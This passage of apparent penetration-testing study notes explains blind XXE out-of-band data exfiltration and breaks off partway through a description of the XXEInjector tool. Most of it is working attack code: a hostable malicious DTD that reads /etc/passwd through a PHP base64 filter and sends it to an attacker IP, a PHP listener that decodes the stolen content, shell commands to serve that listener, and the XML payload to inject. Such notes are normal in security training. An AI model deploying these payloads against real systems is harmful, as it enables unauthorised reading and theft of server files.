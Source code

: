   * Blind data exfiltration:

    * Out-of-band (OOB) data exfiltration can be used in case of blind XXE vulnerabilities; the webapp will send a request to our web server with the content of the file to be read

    * first, use a parameter entity for file content, using PHP base64 filter; then we can create another external parameter entity (referring to our IP) and place the ```file``` parameter value as part of the URL. Once we inject the required payload in the request, we should see the decoded content in shell:

      ```xml
      <!-- host this DTD file on our machine -->
      <!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
      <!ENTITY % oob "<!ENTITY content SYSTEM 'http://10.10.120.10:8000/?content=%file;'>">
      ```

      ```php
      # create a script that automatically decodes the base64-encoded content and prints to terminal
      <?php
      if(isset($_GET['content'])){
          error_log("\n\n" . base64_decode($_GET['content']));
      }
      ?>
      ```

      ```shell
      vim index.php
      # write the above PHP script and host it

      php -S 0.0.0.0:8000
      ```

      ```xml
      <!-- payload to be used in request -->
      <?xml version="1.0" encoding="UTF-8"?>
      <!DOCTYPE email [ 
        <!ENTITY % remote SYSTEM "http://10.10.120.10:8000/xxe.dtd">
        %remote;
        %oob;
      ]>
      <root>&content;</root>
      ```

    * this process can be automated with the help of tools like [XXEInjector](https://github.com/enjoiz/XXEinjector):

      ```shell
      git clone https://github.com/enjoiz/XXEinjector.git

      # intercept and copy HTTP request to file
      